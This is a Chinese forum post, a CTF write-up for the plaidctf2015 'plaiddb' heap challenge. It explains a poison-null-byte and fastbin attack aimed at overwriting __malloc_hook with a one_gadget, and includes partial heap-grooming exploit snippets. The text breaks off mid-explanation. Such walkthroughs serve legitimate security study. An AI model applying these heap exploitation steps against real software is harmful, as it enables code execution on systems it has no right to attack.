# [CTF] pwn题off-by-null详解

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1581552
- 抓取时间: 2026-11-01T23:38:11

题目: `plaidctf2015_plaiddb` -> `datastore`

前几天吾爱官方发布的top榜单，突然看到了我的用户名，太激动了感谢官方{:1_919:} {:1_887:}

## 保护


image.png (36.85 KB, 下载次数: 268)
[href="forum.php?mod=attachment&aid=MjQzNTg1NXwzZWNiMWVmM3wxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTg1NXwzZWNiMWVmM3wxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:40 上传

恩,全开

## 分析


image.png (137.62 KB, 下载次数: 276)
[href="forum.php?mod=attachment&aid=MjQzNTg2MHw2ZDEyZmYzMXwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTg2MHw2ZDEyZmYzMXwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:40 上传

这题不用纠结这个二叉树算法,解题思路和算法方面关系不大

### put函数:(用于添加键值对)


image.png (141.43 KB, 下载次数: 265)
[href="forum.php?mod=attachment&aid=MjQzNTg3MHwxNzA3M2QyOHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTg3MHwxNzA3M2QyOHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:41 上传


image.png (116.48 KB, 下载次数: 267)
[href="forum.php?mod=attachment&aid=MjQzNTg3NnwwYmVlMmE2ZnwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTg3NnwwYmVlMmE2ZnwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:41 上传

### off-by-null函数


image.png (119.91 KB, 下载次数: 269)
[href="forum.php?mod=attachment&aid=MjQzNTkwMHw5ZTY0YTA1YnwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTkwMHw5ZTY0YTA1YnwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:42 上传

### get函数: (显示单个数据库中键的值)


image.png (86.23 KB, 下载次数: 274)
[href="forum.php?mod=attachment&aid=MjQzNTkwOHwyMzBjM2UxZHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTkwOHwyMzBjM2UxZHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:42 上传

### dump函数(用于显示所有信息)


image.png (92.69 KB, 下载次数: 263)
[href="forum.php?mod=attachment&aid=MjQzNTkzMXxmYmZjMTBmZXwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTkzMXxmYmZjMTBmZXwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:43 上传

### dele函数(内容过多,只粘贴核心部分,用于删除单个键值对)


image.png (77.51 KB, 下载次数: 278)
[href="forum.php?mod=attachment&aid=MjQzNTk2M3w5ZTg1ZjQyOHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTk2M3w5ZTg1ZjQyOHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:44 上传


image.png (116.66 KB, 下载次数: 265)
[href="forum.php?mod=attachment&aid=MjQzNTk3MXw4NmQ1NTE5MnwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTk3MXw4NmQ1NTE5MnwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:45 上传

### bss全局保存变量


image.png (73.53 KB, 下载次数: 271)
[href="forum.php?mod=attachment&aid=MjQzNTk3N3wzMzMxMDliMHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTk3N3wzMzMxMDliMHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:45 上传

### 程序的数据库结构理解图:


image.png (74.81 KB, 下载次数: 272)
[href="forum.php?mod=attachment&aid=MjQzNTk4M3xmM2UxOTZmY3wxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTk4M3xmM2UxOTZmY3wxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:45 上传

## 思路

程序中有`uaf`漏洞,`off-by-null`漏洞,且程序保护措施全开,思路就是在`__malloc_hook`处写入`one_gadget`进行攻击,那么可以用`posion null byte` + `fast bin attack`进行`getshell`

那么首先就是使用`posion null byte`泄露`libc`

因为程序有固定的`malloc`格式,且具有溢出`null`字节的`malloc`处在`key_ptr`处那么就需要将`key_ptr`放置在`unsort bin`的上面

`malloc(1)` 10个 然后`free()`它们,这样`key_ptr`(0x20)和`all_ptr`(0x40)就会留在`fast bin`里面,下次`malloc`时就会去`bin`中重新分配,而自定义大小的`data_ptr`就可以物理邻边了如图所示:

```
for i in range(10):
    put(str(i), 1, str(i))
for i in range(10):
    dele(str(i))
```

此时的堆结构


image.png (251.68 KB, 下载次数: 268)
[href="forum.php?mod=attachment&aid=MjQzNTk5MXxmY2MyNjY0OHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTk5MXxmY2MyNjY0OHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:45 上传

接下来构造`posion-null-byte`的堆结构 : `chunkA` + `chunkB`(unsort) + `chunkC` 其中`chunkA`具有溢出`null`字节功能

```
put('A',0x70,'A'*0x70) #不能是unsort bin不然会和B合并
put('B',0x100,'B'*0x100) #必须是unsort bin用于后面的分割unsort bin
put('C',0x100,'C'*0x100) #必须是unsort bin才能在释放后根据prev_size进行向上合并
put('P',0x20,'P') #用于防止合并进top chunk
```

经过上面的布局现在堆空间将会把`data_ptr`物理邻近在一起如图 : (因为`fast bin`的先进后出的规则顺序`P`->`C`->`B`->`A` )


image.png (249.85 KB, 下载次数: 275)
[href="forum.php?mod=attachment&aid=MjQzNTk5OHw2ZjFjOTkwMHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNTk5OHw2ZjFjOTkwMHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:46 上传

那么现在`posion-null-byte`的堆结构可以搭好,那么就需要使`0x55ce662535a0`(0x80)这个`chunk`可以溢出`null`字节,因为这个`chunk`是属于`data_ptr`它并没有`null`字节溢出功能,那么就可以通过`uaf`漏洞将他`free`掉,再`malloc`一个`key_ptr`大小为`0x70`( 解释看下图伪函数 )就可以拿到这块堆块了

```
dele('A') #free chunkA 使下面的key_ptr拿到这块
dele('B')
put('A'*0x78,0x10,'A'*0x10)#off-by-null #key_ptr的默认大小为0x20 当大小为0x78时会重新分配,并且可以溢出一字节
#溢出字节到chunk_B(unsort bin状态)将size 由0x110 -> 0x100
```


image.png (105.07 KB, 下载次数: 252)
[href="forum.php?mod=attachment&aid=MjQzNjAwMnw2OTQ0ZjJkYnwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNjAwMnw2OTQ0ZjJkYnwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:46 上传

此时的堆空间:

